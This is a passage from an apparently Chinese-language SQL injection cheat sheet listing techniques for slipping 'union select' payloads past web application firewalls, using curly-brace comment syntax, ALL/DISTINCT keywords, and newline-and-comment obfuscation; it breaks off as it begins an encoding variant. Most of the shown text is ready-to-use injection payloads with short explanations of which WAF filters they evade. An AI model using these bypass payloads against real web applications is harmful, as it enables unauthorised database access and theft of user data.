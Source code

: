 ## 0x31 花括号绕过
select 1,2 union select{x 1},user()  
花括号 左边是注释的内容 这样可以一些 waf 的拦截。  

## 0x32 使用ALL或DISTINCT绕过
去掉重复值：  
select 1,2 from users where user_id=1 union DISTINCT select 1,2  
select 1,2 from users where user_id=1 union select DISTINCT 1,2  
显示全部：  
select 1,2 from users where user_id=1 union all select 1,2  
select 1,2 from users where user_id=1 union select all 1,2  

## 0x33 换行混淆绕过
目前很多 waf 都会对 union select 进行过滤的 因为使用联合查询 这两个关键词是必须的，一般过滤这个两个字符 想用联合查询就很难了。  
可以使用换行加上一些注释符进行绕过。  
![](./image/1001-1.png)  
也可以进行编码，其中%0a是换行符：  